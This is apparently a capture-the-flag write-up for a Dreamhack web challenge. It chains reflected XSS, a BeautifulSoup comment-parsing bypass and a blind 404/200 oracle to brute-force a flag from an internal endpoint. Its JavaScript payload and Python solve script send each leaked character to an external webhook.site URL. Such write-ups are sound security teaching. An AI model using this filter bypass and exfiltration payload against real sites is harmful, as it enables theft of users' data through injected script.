


## Blind Vakery  



We are given a website where we can search for breads.  

The server uses MySQL to store data, and the flag is stored as an entry inside the `breads` table.  

```sql
DROP TABLE IF EXISTS `breads`;

...

INSERT INTO breads (name, description, price) values
  ("Croissant", "A flaky and buttery French pastry, known for its crescent shape and layered texture.", 10),
  ("Ciabatta", "An Italian bread with a crisp crust and porous, chewy interior, perfect for sandwiches.", 20),
  ("Cream Puff", "A light, hollow pastry filled with sweet cream or custard, often dusted with powdered sugar.", 7),
  ("Baguette", "A baguette is a long, thin loaf of French bread that is characterized by a crispy crust and a chewy texture.", 12),
  ("DH{**fake_flag**}", "This is flag for you.", 10000);
```

There is a `/report` endpoint that gets an admin bot to visit the `/memo` endpoint with user-supplied content, so this is clearly a XSS challenge.  

```python
@app.route("/report", methods=["GET", "POST"])
def report():
    if not session:
        return redirect("/login")

    if request.method == "POST":
        text = request.form.get("memo")
        if not text:
            return render_template("report.html", msg="fail")

        url = f"http://127.0.0.1:8000/memo?memo={text}"

        if check_url(url):
            return render_template("report.html", msg="success")
        else:
            return render_template("report.html", msg="fail")

    elif request.method == "GET":
        return render_template("report.html")
```

The `/bread` endpoint allows us to search for breads, but only through internal requests.  

This endpoint doesn't actually display the results of the search query, but it does throw a `404` error if no results are found, giving us a blind oracle.  

Our goal would thus be to leverage XSS to SSRF to `/bread` and exfiltrate the flag using a side channel attack.  

```python
def get_bread_by_name(bread_name):
    try:
        query = "SELECT name FROM breads WHERE name LIKE %s"
        with lock:
            cursor.execute(query, (bread_name + "%"))
            user = cursor.fetchone()
            if user:
                return user

    except Exception as e:
        print(f"[-] db Error : {e}")
        db.close()

...

@app.route("/bread", methods=["GET"])
def bread():
    if not session:
        return redirect("/login")

    if request.remote_addr != "127.0.0.1":
        return render_template("403.html"), 403

    if request.method == "GET":
        bread_name = request.args.get("bread_name")

        if bread_name == None:
            return render_template("bread.html")

        bread = get_bread_by_name(bread_name)
        print(bread, flush=True)

        if bread == None:
            abort(404)

        if bread[0] and session["isAdmin"]:
            ## It's still under development, so I need to set it up temporarily.
            abort(404)
        else:
            return render_template("bread.html")

    else:
        abort(500)
```

The Jinja template for `/memo` renders content without autoescaping, which gives us a reflected XSS vector.  

```html


    
    <div class="memo-container">
        <div class="memo-box">
            <h2>Memo:</h2>
            
            <p>{{ memo | safe }}</p>
            
            <p>No memo provided.</p>
            
        </div>
    </div>
    
</body>

</html>
```

However, the main issue is that `/memo` validates our payload with `check_possibility_xss()`, which uses `BeautifulSoup` to detect and block all HTML tags.  

```python
def check_possibility_xss(memo_text):
    soup = BeautifulSoup(memo_text, "html.parser")
    return bool([tag.name for tag in soup.find_all()])

...

@app.route("/memo")
def memo():
    text = request.args.get("memo", "")
    if check_possibility_xss(text):
        return render_template(
            "memo.html", memo="[REDACTED] - A text with potential for XSS"
        )
    else:
        return render_template("memo.html", memo=text)
```

To bypass this, we can trick `BeautifulSoup` into parsing our payload as one large HTML comment.  

```html
<!--><script>alert(1)</script>-->
```

Now, we can expand on our XSS vector to exfiltrate the flag.  

The challenge description states that the flag consists of `32` character long hexadecimal string.  



My implementation below is only able to leak one character per script run, as the admin browser would close after the first `200` status response for some reason.  

I opted to use `XMLHttpRequest()` to force synchronous requests and hang the admin browser just long enough for the entire charset to be bruteforced (note that requests still have a chance of not completing, but the reliability is significantly boosted).  

```js
function req(method, url, header=null, data=null) {
    const x = new XMLHttpRequest()
    x.open(method, url, false)

    if (header) 
        x.setRequestHeader(...header)
    
    x.send(data)

    return x.status
}

req('POST', '/login', ['Content-Type', 'application/x-www-form-urlencoded'], 'username=<username>&password=<password>')

flag = 'DH{'

for (const char of 'abcdef0123456789}') {
    resp = req('GET', `/bread?bread_name=${flag + char}`)
    
    if (resp == 200) {
        flag += char
        req('GET', `<webhook>?e=${flag}`)
        break
    }
}
```

Now we just need to manually submit our payload and extract the flag character by character until we obtain the full flag.  

Below is my full solve script for this challenge.  

```python
import requests
from urllib.parse import quote

url = "http://host8.dreamhack.games:18189/"
s = requests.Session()

# login
creds = {
    'username': 'hacked',
    'password': 'hacked'
}

res = s.post(f'{url}/signup', data=creds)
res = s.post(f'{url}/login', data=creds)

print("> Logged in")

# xss
def leak(flag):
    webhook = 'https://webhook.site/8e62ae90-f77e-408a-a2f4-7b19634e352d'

    payload = '''
    <!--><script>
        function req(method, url, header=null, data=null) {
            const x = new XMLHttpRequest()
            x.open(method, url, false)

            if (header) 
                x.setRequestHeader(...header)
            
            x.send(data)

            return x.status
        }

        req('POST', '/login', ['Content-Type', 'application/x-www-form-urlencoded'], 'username=hacked&password=hacked')

        flag = '%s'

        for (const char of 'abcdef0123456789}') {
            resp = req('GET', `/bread?bread_name=${flag + char}`)
            
            if (resp == 200) {
                flag += char
                req('GET', `%s?e=${flag}`)
                break
            }
        }

    </script>-->''' % (flag, webhook)

    res = s.post(f'{url}/report', data={
        'memo': quote(payload)
    })

flag = 'DH{'

print("Flag:", flag, '|', f'{len(flag)}/{32 + 4}')

leak(flag)
```

Flag: `DH{21617d554c9d1035d981a533a8c4a878}`